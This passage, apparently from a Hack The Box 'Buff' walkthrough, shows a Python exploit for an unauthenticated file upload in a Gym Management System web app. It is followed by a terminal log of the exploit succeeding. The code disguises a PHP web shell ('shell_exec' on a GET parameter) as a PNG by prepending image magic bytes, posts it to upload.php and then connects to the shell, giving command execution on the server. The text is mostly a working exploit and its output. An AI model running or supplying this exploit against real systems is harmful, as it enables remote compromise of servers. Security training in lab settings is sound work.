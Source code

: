 ```python
def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=kamehameha'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

And the result will be like this 

```
┌──(justakazh㉿youknowitsme)-[/htb/easy/buff/exploit]
└─$ python2 gym_management_system.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                                                 
`^^^^^^^^^^^^ /============BOKU====================="
            \/

^[[A
^[[[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> 
```
